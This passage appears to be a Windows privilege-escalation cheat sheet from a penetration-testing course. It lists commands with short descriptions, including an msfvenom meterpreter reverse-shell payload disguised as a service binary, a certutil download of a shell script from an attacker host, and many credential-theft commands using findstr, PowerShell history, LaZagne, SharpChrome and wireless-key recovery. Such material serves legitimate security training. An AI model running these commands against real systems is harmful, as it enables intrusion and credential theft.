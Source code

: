 | `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`                                                                                                  | Check startup programs                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`                                                                       | Generating a malicious binary                              |
| `get-process -Id 3324`                                                                                                                                                                | Enumerating a process ID with PowerShell                   |
| `get-service \| ? {$_.DisplayName -like 'Druva*'}`                                                                                                                                    | Enumerate a running service by name with PowerShell        |

## Credential Theft

| **Command**                                                                                                               | **Description**                                    |
| ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`                                                              | Search for files with the phrase "password"        |
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` | Searching for passwords in Chrome dictionary files |
| `(Get-PSReadLineOption).HistorySavePath`                                                                                  | Confirm PowerShell history save path               |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                               | Reading PowerShell history file                    |
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`                                                                 | Decrypting PowerShell credentials                  |
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`                                         | Searching file contents for a string               |
| `findstr /si password *.xml *.ini *.txt *.config`                                                                         | Searching file contents for a string               |
| `findstr /spin "password" *.*`                                                                                            | Searching file contents for a string               |
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`                                              | Search file contents with PowerShell               |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`                                        | Search for file extensions                         |
| `where /R C:\ *.config`                                                                                                   | Search for file extensions                         |
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`                                  | Search for file extensions using PowerShell        |
| `cmdkey /list`                                                                                                            | List saved credentials                             |
| `.\SharpChrome.exe logins /unprotect`                                                                                     | Retrieve saved Chrome credentials                  |
| `.\lazagne.exe -h`                                                                                                        | View LaZagne help menu                             |
| `.\lazagne.exe all`                                                                                                       | Run all LaZagne modules                            |
| `Invoke-SessionGopher -Target WINLPE-SRV01`                                                                               | Running SessionGopher                              |
| `netsh wlan show profile`                                                                                                 | View saved wireless networks                       |
| `netsh wlan show profile ilfreight_corp key=clear`                                                                        | Retrieve saved wireless passwords                  |

## Other Commands

| **Command**                                                                                                 | **Description**                                    |
| ----------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`                               | Transfer file with certutil                        |
| `certutil -encode file1 encodedfile`                                                                        | Encode file with certutil                          |
| `certutil -decode encodedfile file2`                                                                        | Decode file with certutil                          |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`                                 | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`                                              | Query for always install elevated registry key (2) |
